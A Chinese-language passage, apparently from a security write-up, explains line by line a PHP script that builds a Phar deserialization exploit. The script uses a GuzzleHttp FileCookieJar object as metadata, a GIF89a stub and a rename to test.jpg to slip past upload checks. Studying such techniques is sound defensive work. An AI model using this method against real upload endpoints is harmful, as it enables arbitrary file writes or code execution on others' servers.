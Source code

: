**`namespace{ ... }`**: 这部分代码是生成 Phar 文件的主要逻辑

`$exp = new GuzzleHttp\Cookie\FileCookieJar();`创建了一个 `FileCookieJar` 类的实例 `$exp`。这个对象包含了恶意代码和目标文件路径

`$phar = new Phar('test.phar');`创建一个新的 Phar 对象，文件名为 `test.phar`

`$phar -> stopBuffering();`停止缓冲，准备写入文件内容

`$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");`设置 Phar 文件的 Stub。Stub 是 Phar 文件的入口点，这里使用了一个 GIF 图片的文件头 `GIF89a`，后面跟着 `<?php __HALT_COMPILER(); ?>`。`__HALT_COMPILER()` 用于标识 Phar 文件内容的结束。使用 GIF 文件头是为了在上传时绕过可能隐含的文件类型检查

`$phar -> addFromString('test.txt','test');`向 Phar 文件中添加一个名为 `test.txt` 的虚拟文件，内容为 `test`。这是 Phar 文件必需的部分，但内容本身在这个漏洞中并不重要

`$phar -> setMetadata($exp);`**这是最关键的一行。它将之前创建的包含恶意信息的 `$exp` 对象进行序列化，并将其设置为 Phar 文件的元数据。** 当 Phar 文件被以 `phar://` 协议处理时，PHP 会自动反序列化这个元数据。

`$phar -> stopBuffering();`停止写入 Phar 文件

`rename('test.phar','test.jpg');`将生成的 `test.phar` 文件重命名为 `test.jpg`。这是为了在上传时绕过文件扩展名检查
